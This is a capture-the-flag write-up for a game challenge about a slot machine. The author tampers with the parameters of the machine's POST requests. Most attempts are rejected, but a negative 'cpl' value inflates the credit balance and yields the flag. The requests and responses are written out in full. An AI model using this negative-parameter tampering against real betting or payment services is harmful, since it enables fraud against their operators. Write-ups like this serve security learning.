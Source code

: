 # Introduction
This challenge is all about exploiting Jacks slotsystem. Everything can be done in browser and I really reccommend using firefox, simply becuase the interface is less confusing.
The description for this challenge is:
*Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.* 
So the flag here is what the troll tells you when you reach over 1000 coins.

# Reconnaissance
The webpage for the slotmachines is amusing. It has no fields you can enter data. You can contorl how much you bet and the bet level, other than that you may spin/autospin or check how much each each troll is worth. With no possibility to enter or manipulate the values from the gui, lets check out the inspector tools.
I want to head on over to the networks tools just to check out the requests my computer is sending.
Appart from the header, I see that this is my payload
```
POST
betamount=1&numline=20&cpl=0.1

RESPONSE
{"success":true,"data":{"credit":98,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon8","icon6","icon2","icon7","icon9","icon10","icon10","icon4","icon2","icon8","icon6","icon6","icon9","icon6","icon10"],"ActiveIcons":[],"ActiveLines":[]},"response":"Keep playing!"},"message":"Spin success"}
```
Ok so a legitmiate request has the betamount, number of lines we want to play with, and a cpl that I have no idea what does.
But the response tells us that the server pulls the following from its own end, the win amount, free spins, if I have won the jackpot and what trolls appear.

# Enumeration
I tried to combine different fields to try to manipulate the server to give me prizes I didn't have, such as:
```
POST
betamount=1&numline=20&cpl=0.1&HasJackpot=TRUE
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my jackpot)

POST
betamount=1&numline=20&cpl=0.1&credits=1000000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my credits)

POST
betamount=1&numline=20&cpl=0.1&WinAmount=10000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my WinAmount)

POST
betamount=10000&numline=20&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=-10&numline=20&cpl=0,1
RESPONSE
404 invalid betamount

POST
betamount=1&numline=200000&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=1&numline=-20&cpl=0,1
RESPONSE
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It gave me nothing)

POST
betamount=1&numline=20&cpl=99999
RESPONSE
404 not enough credits

POST
betamount=1&numline=20&cpl=-100
RESPONSE
200 OK
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_...
```
Hold up, the last request gave us alot of credits, why?

# The vulneralbility
CPL didn't have the same checks as the others, becuase pre spin it doesn't affect our startcredits. I don't know exactly what it does, but it looks like it is always multiplied with the numline value and affects your total credits. 
Anyway, the flag: 
```
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":-3000,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon3","icon9","icon6","icon4","icon2","icon8","icon1","icon2","icon9","icon6","wild","wild","icon3","wild","icon9"],"ActiveIcons":[1,12,13,14],"ActiveLines":[20]},"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"},"message":"Spin success"}
```
**"I'm going to have some bouncer trolls bounce you right out of this casino!"**
